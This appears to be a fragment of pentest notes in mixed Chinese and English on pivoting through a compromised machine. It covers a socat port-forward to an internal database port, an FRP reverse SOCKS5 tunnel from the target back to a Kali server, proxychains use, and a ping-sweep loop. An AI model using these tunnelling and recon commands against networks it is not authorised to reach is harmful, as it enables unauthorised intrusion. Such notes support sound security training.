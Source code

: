 ```
socat -ddd TCP-LISTEN:2345,fork TCP:<无法直接访问的内网主机ip>:5432
```



# 代理

##### FRP
**frp_0.53.0_linux_amd64.tar.gz** 
DOWNLOAD URL :  https://github.com/fatedier/frp/releases/

- KALI
**frps.ini**
```
[common]
bind_addr = 0.0.0.0
bind_port = 7000
```
- Target
**Target**
```
# frpc.ini
[common]
server_addr = 192.168.27.195
server_port = 7000
[http_proxy]
type = tcp
remote_port = 7777
plugin = socks5
frps.ini
```
Transfor File `frpc , frpc.ini` to Target Machine
> **[[File Transfer]]**
```shell
chmod +x frpc
```

**USE ：**
- KALI
```bash
./frps -c frps.ini
```
- Target
```bash
./frpc -c ftpc.ini
```

```shell
gedit /etc/proxychains4.conf
```

## 脚本

- 内网存活主机探测
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
